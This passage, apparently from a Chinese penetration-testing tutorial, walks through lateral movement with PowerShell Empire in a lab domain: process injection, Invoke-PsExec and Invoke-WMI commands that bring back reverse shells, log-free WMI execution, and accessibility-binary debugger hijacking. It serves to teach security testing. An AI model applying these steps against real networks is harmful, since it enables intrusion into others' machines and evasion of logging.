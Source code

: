 我们也可以使用usemodule management/psinject模块来进程注入，获取权限，输入info查看参数设置，如下图所示。

[![http://p9.qhimg.com/t01d90d8d5df647269f.png](http://p9.qhimg.com/t01d90d8d5df647269f.png)](http://p9.qhimg.com/t01d90d8d5df647269f.png)

设置下Listeners和ProcID这2个参数，这里的ProcID还是之前的CMD的1380，运行后反弹回一个域用户权限shell，如下图所示。

[![http://p5.qhimg.com/t01ffb93786542a10fc.png](http://p5.qhimg.com/t01ffb93786542a10fc.png)](http://p5.qhimg.com/t01ffb93786542a10fc.png)

## 3.Invoke-PsExec

PsExec是我在Metasploit下经常使用的模块，还有pstools工具包当中也有psexec，缺点是该工具基本杀毒软件都能检测到，并会留下日志，而且需要开启admin$ 445端口共享。优点是可以直接返回SYSTEM权限。这里我们要演示的是Empire下的Invoke-Psexec模块。

使用该模块的前提是我们已经获得本地管理员权限，甚至域管理员账户，然后以此来进一步持续渗透整个内网。

我们测试该模块前看下当前agents，只有一个IP为192.168.31.251，机器名为WIN7-64的服务器，如下图所示。

[![http://p5.qhimg.com/t01b091ecae61f2342a.png](http://p5.qhimg.com/t01b091ecae61f2342a.png)](http://p5.qhimg.com/t01b091ecae61f2342a.png)

现在使用模块usemodule lateral_movement/invoke_psexec渗透域内另一台机器WIN7-X86，输入info查看设置参数，如下图所示。

[![http://p0.qhimg.com/t01d154d67dc6f81199.png](http://p0.qhimg.com/t01d154d67dc6f81199.png)](http://p0.qhimg.com/t01d154d67dc6f81199.png)

这里要设置下机器名和监听，输入下列命令，反弹成功。如下图所示。

```
`Set ComputerName WIN7-X86.shuteer.testlab``Set Listenershuteer``Execute`
```

[![http://p0.qhimg.com/t013c80b7cfa596468a.png](http://p0.qhimg.com/t013c80b7cfa596468a.png)](http://p0.qhimg.com/t013c80b7cfa596468a.png)

输入agents命令查看当前agents，多了一个IP为192.168.31.158，机器名为WIN7-X86的服务器，如下图所示。

[![http://p0.qhimg.com/t010f1503958893620b.png](http://p0.qhimg.com/t010f1503958893620b.png)](http://p0.qhimg.com/t010f1503958893620b.png)

## 4.Invoke-WMI

它比PsExec安全，所有window系统启用该服务，当攻击者使用wmiexec来进行攻击时，Windows系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。但防火墙开启将会无法连接。输入usemodule lateral_movement/invoke_wmi，使用该模块，输入info命令查看具体参数，如下图所示。

[![http://p7.qhimg.com/t0194c6bc2362b18a9b.png](http://p7.qhimg.com/t0194c6bc2362b18a9b.png)](http://p7.qhimg.com/t0194c6bc2362b18a9b.png)

这里一样需要设置下机器名和监听，输入下列命令，执行execute命令反弹成功。如下图所示。

```
`Set ComputerName WIN7-X86.shuteer.testlab``Set Listener shuteer``Execute`
```

[![http://p3.qhimg.com/t01fb7cbf084ae02255.png](http://p3.qhimg.com/t01fb7cbf084ae02255.png)](http://p3.qhimg.com/t01fb7cbf084ae02255.png)

WMI还有一个usemodule lateral_movement/invoke_wmi_debugger模块，是使用WMI去设置五个Windows Accessibility可执行文件中任意一个的调试器。这些可执行文件包括sethc.exe（粘滞键，五下shift可触发），narrator.exe（文本转语音，Utilman接口激活）、Utilman.exe（windows辅助管理器，Win+U启用），Osk.exe（虚拟键盘，Utilman接口启用）、Magnify.exe（放大镜，Utilman接口启用）。大家也可以尝试一下。
